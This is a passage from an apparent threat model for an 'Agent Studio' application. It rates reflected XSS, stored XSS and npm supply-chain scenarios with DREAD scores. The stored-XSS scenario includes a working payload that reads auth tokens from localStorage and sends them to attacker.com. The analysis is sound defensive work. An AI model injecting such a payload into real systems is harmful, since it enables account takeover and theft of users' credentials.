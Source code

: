 **Prerequisites:**
- Vulnerable input field (search, agent name, workflow description)
- Lack of output encoding/sanitization
- User clicks malicious link (phishing email, compromised website)

**Impact:**
- **Damage:** Complete account takeover (CVSS: 9.1)
- **Reproducibility:** High (easily automated)
- **Exploitability:** High (no special tools required)
- **Affected Users:** Individual users who click malicious links
- **Discoverability:** High (automated scanners detect XSS)

**DREAD Score:** 9.2/10 (CRITICAL)

#### Scenario 2: Stored XSS via Agent Configuration

**Attack Vector:**
```json
// Agent configuration with malicious script
{
  "name": "Legitimate Agent",
  "description": "Helpful agent <img src=x onerror='
    var tokens = localStorage.getItem(\"auth_tokens\");
    fetch(\"https://attacker.com/steal?t=\" + tokens);
  '>"
}
```

**Prerequisites:**
- Insufficient input validation on agent description field
- No output encoding when rendering agent details
- Another user views the malicious agent configuration

**Impact:**
- **Damage:** Multiple account takeovers (persistent attack)
- **Reproducibility:** High (once injected, affects all viewers)
- **Exploitability:** Medium (requires account creation)
- **Affected Users:** All users who view the agent (high impact)
- **Discoverability:** Medium (requires code review or specific testing)

**DREAD Score:** 8.8/10 (CRITICAL)

#### Scenario 3: Third-Party Dependency Compromise

**Attack Vector:**
- Attacker compromises npm package used by Agent Studio
- Malicious code injected into package update: `localStorage.getItem('auth_tokens')`
- Tokens exfiltrated during build process or runtime

**Prerequisites:**
- Supply chain vulnerability (compromised package maintainer)
- Lack of dependency integrity verification (SRI)
- No package audit or pinning

**Impact:**
- **Damage:** Mass credential theft (all users)
- **Reproducibility:** Medium (requires package update deployment)
- **Exploitability:** High (once compromised package deployed)
- **Affected Users:** All users
- **Discoverability:** Low (sophisticated attack, hard to detect)
